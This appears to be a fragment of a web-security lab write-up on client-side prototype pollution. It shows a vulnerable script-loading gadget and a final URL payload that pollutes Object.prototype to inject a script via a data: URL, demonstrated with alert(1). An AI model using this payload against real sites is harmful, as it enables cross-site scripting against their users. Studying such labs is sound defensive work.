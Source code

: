 ![alt text](pp3.png)

Observe that it now has a foo property with the value bar.

searchLogger.js:
```js
if(config.transport_url) {
    let script = document.createElement('script');
    script.src = config.transport_url;
    document.body.appendChild(script);
}
```

Final payload:
```
/?__proto__[transport_url]=data:,alert(1);
```
We pollute **Object.prototype** so that **config.transport_url** inherits `data:,alert(1);`
